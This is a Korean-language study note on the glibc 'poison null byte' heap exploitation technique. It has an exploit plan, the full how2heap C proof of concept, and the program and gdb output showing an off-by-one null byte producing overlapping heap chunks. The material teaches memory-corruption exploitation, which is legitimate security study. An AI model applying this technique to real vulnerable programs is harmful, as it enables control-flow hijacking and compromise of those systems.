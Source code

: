 # **Poison null byte**

## **Conditions**

* 공격자에 의해 다음과 같은 Heap 영역을 할당, 해제할 수 있어야 함
    * 0x200 이상의 Heap 영역 
    * Fast bin 이상의 Heap 영역(Heap size : 0x80 이상)
* 공격자에 의해 Free chunk의 size 영역에 1byte를 Null로 변경할 수 있어야 함
* 공격자에 의해 Free chunk의 size보다 작은 Heap 영역을 2개 할당할 수 있어야 함
    * Fast chunk 사용할 수 없음

## **Exploit Plan**

1. 3개의 Heap 영역 할당(Heap1, Heap2, Heap3)
1. Heap2 영역(Heap2 주소 + Heap2 size(Null로 변조한 Heap size))에 1byte를 Null로 변조한 값을 저장
1. Heap2 영역 해제
1. Free chunk의 size 영역에 1byte를 null로 변조
1. 변경된 Free chunk 영역 안에서 생성 가능한 크기의 Heap 영역 2개 할당(Heap4, Heap5)
1. Heap4 영역 해제
1. Heap3 영역 해제
1. "Heap4 + Heap5" 이상의 Heap 영역 할당
    * 할당 받은 영역으로 인해 Heap5 영역의 값을 덮어쓸 수 있다.

![poison_null_byte](/Resources/img/poison_null_byte.jpg)

## **Proof of Concept**

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>


int main()
{
	fprintf(stderr, "Welcome to poison null byte 2.0!\n");
	fprintf(stderr, "Tested in Ubuntu 14.04 64bit.\n");
	fprintf(stderr, "This technique only works with disabled tcache-option for glibc, see build_glibc.sh for build instructions.\n");
	fprintf(stderr, "This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.\n");

	uint8_t* a;
	uint8_t* b;
	uint8_t* c;
	uint8_t* b1;
	uint8_t* b2;
	uint8_t* d;
	void *barrier;

	fprintf(stderr, "We allocate 0x100 bytes for 'a'.\n");
	a = (uint8_t*) malloc(0x100);
	fprintf(stderr, "a: %p\n", a);
	int real_a_size = malloc_usable_size(a);
	fprintf(stderr, "Since we want to overflow 'a', we need to know the 'real' size of 'a' "
		"(it may be more than 0x100 because of rounding): %#x\n", real_a_size);

	/* chunk size attribute cannot have a least significant byte with a value of 0x00.
	 * the least significant byte of this will be 0x10, because the size of the chunk includes
	 * the amount requested plus some amount required for the metadata. */
	b = (uint8_t*) malloc(0x200);

	fprintf(stderr, "b: %p\n", b);

	c = (uint8_t*) malloc(0x100);
	fprintf(stderr, "c: %p\n", c);

	barrier =  malloc(0x100);
	fprintf(stderr, "We allocate a barrier at %p, so that c is not consolidated with the top-chunk when freed.\n"
		"The barrier is not strictly necessary, but makes things less confusing\n", barrier);

	uint64_t* b_size_ptr = (uint64_t*)(b - 8);

	// added fix for size==prev_size(next_chunk) check in newer versions of glibc
	// https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=17f487b7afa7cd6c316040f3e6c86dc96b2eec30
	// this added check requires we are allowed to have null pointers in b (not just a c string)
	//*(size_t*)(b+0x1f0) = 0x200;
	fprintf(stderr, "In newer versions of glibc we will need to have our updated size inside b itself to pass "
		"the check 'chunksize(P) != prev_size (next_chunk(P))'\n");
	// we set this location to 0x200 since 0x200 == (0x211 & 0xff00)
	// which is the value of b.size after its first byte has been overwritten with a NULL byte
	*(size_t*)(b+0x1f0) = 0x200;

	// this technique works by overwriting the size metadata of a free chunk
	free(b);
	
	fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);
	fprintf(stderr, "b.size is: (0x200 + 0x10) | prev_in_use\n");
	fprintf(stderr, "We overflow 'a' with a single null byte into the metadata of 'b'\n");
	a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
	fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);

	uint64_t* c_prev_size_ptr = ((uint64_t*)c)-2;
	fprintf(stderr, "c.prev_size is %#lx\n",*c_prev_size_ptr);

	// This malloc will result in a call to unlink on the chunk where b was.
	// The added check (commit id: 17f487b), if not properly handled as we did before,
	// will detect the heap corruption now.
	// The check is this: chunksize(P) != prev_size (next_chunk(P)) where
	// P == b-0x10, chunksize(P) == *(b-0x10+0x8) == 0x200 (was 0x210 before the overflow)
	// next_chunk(P) == b-0x10+0x200 == b+0x1f0
	// prev_size (next_chunk(P)) == *(b+0x1f0) == 0x200
	fprintf(stderr, "We will pass the check since chunksize(P) == %#lx == %#lx == prev_size (next_chunk(P))\n",
		*((size_t*)(b-0x8)), *(size_t*)(b-0x10 + *((size_t*)(b-0x8))));
	b1 = malloc(0x100);

	fprintf(stderr, "b1: %p\n",b1);
	fprintf(stderr, "Now we malloc 'b1'. It will be placed where 'b' was. "
		"At this point c.prev_size should have been updated, but it was not: %#lx\n",*c_prev_size_ptr);
	fprintf(stderr, "Interestingly, the updated value of c.prev_size has been written 0x10 bytes "
		"before c.prev_size: %lx\n",*(((uint64_t*)c)-4));
	fprintf(stderr, "We malloc 'b2', our 'victim' chunk.\n");
	// Typically b2 (the victim) will be a structure with valuable pointers that we want to control

	b2 = malloc(0x80);
	fprintf(stderr, "b2: %p\n",b2);

	memset(b2,'B',0x80);
	fprintf(stderr, "Current b2 content:\n%s\n",b2);

	fprintf(stderr, "Now we free 'b1' and 'c': this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').\n");

	free(b1);
	free(c);
	
	fprintf(stderr, "Finally, we allocate 'd', overlapping 'b2'.\n");
	d = malloc(0x300);
	fprintf(stderr, "d: %p\n",d);
	
	fprintf(stderr, "Now 'd' and 'b2' overlap.\n");
	memset(d,'D',0x300);

	fprintf(stderr, "New b2 content:\n%s\n",b2);

	fprintf(stderr, "Thanks to https://www.contextis.com/resources/white-papers/glibc-adventures-the-forgotten-chunks"
		"for the clear explanation of this technique.\n");
}
```

* a(0x100), b(0x200), c(0x100) Heap 영역 할당

```
Welcome to poison null byte 2.0!
Tested in Ubuntu 14.04 64bit.
This technique only works with disabled tcache-option for glibc, see build_glibc.sh for build instructions.
This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.
We allocate 0x100 bytes for 'a'.
a: 0x603010
Since we want to overflow 'a', we need to know the 'real' size of 'a' (it may be more than 0x100 because of rounding): 0x108
b: 0x603120
c: 0x603330
```

* Top chunk와 병합되지 않도록 barrier Heap 영역 할당

```
We allocate a barrier at 0x603440, so that c is not consolidated with the top-chunk when freed.
The barrier is not strictly necessary, but makes things less confusing
```

* b + 0x200 위치에 0x200(Heap) 저장
    * 0x603110 + 0x200 = 0x603310

```
In newer versions of glibc we will need to have our updated size inside b itself to pass the check 'chunksize(P) != prev_size (next_chunk(P))'
```

```
gdb-peda$ p 0x603110 + 0x200
$1 = 0x603310
gdb-peda$ x/24gx 0x603310
0x603310:	0x0000000000000200	0x0000000000000000
```

* off-by-one을 통해 b의 size 변조

```
b.size: 0x211
b.size is: (0x200 + 0x10) | prev_in_use
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x200
c.prev_size is 0x210
```

* b1을 0x100 할당 시 b영역에 재할당(0x603110)
* b2를 0x80 만큼 할당 시 b영역에 재할당(0x603110 + 0x110)
* b2에 memset을 통해 'B' 저장

```
We will pass the check since chunksize(P) == 0x200 == 0x200 == prev_size (next_chunk(P))
b1: 0x603120
Now we malloc 'b1'. It will be placed where 'b' was. At this point c.prev_size should have been updated, but it was not: 0x210
Interestingly, the updated value of c.prev_size has been written 0x10 bytes before c.prev_size: f0
We malloc 'b2', our 'victim' chunk.
b2: 0x603230
Current b2 content:
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
```

* b1을 free
* c를 free하면 c의 prev_size를 확인하는데 이 때 0x210으로 되어 있어 "c - 0x210" 위치를 확인하여 free chunk인지 확인한다.
* b1을 free 했기 때문에 free 영역으로 인식하여 b1과 c를 병합하게 된다.

```
Now we free 'b1' and 'c': this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').
```

* b1과 c가 병합(0x603110)되어 0x320이 되었다.

```
gdb-peda$ parseheap
addr                prev                size                 status              fd                bk                
0x603000            0x0                 0x110                Used                None              None
0x603110            0x0                 0x320                Freed           0x6032b0    0x7ffff7dd1b78
0x603430            0x320               0x110                Used                None              None
```

* 새로 할당한 d와 b2가 overlapping 된다.
* d를 'D'로 memset 한 후 b2를 확인하면 'D'로 저장되있는 것을 확인할 수 있다.

```
Finally, we allocate 'd', overlapping 'b2'.
d: 0x603120
Now 'd' and 'b2' overlap.
New b2 content:
DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD
Thanks to https://www.contextis.com/resources/white-papers/glibc-adventures-the-forgotten-chunksfor the clear explanation of this technique.
```

**References**  
<https://www.lazenca.net/display/TEC/Poison+null+byte>  
<https://github.com/shellphish/how2heap/blob/master/glibc_2.25/poison_null_byte.c>  
<https://code1018.tistory.com/220>
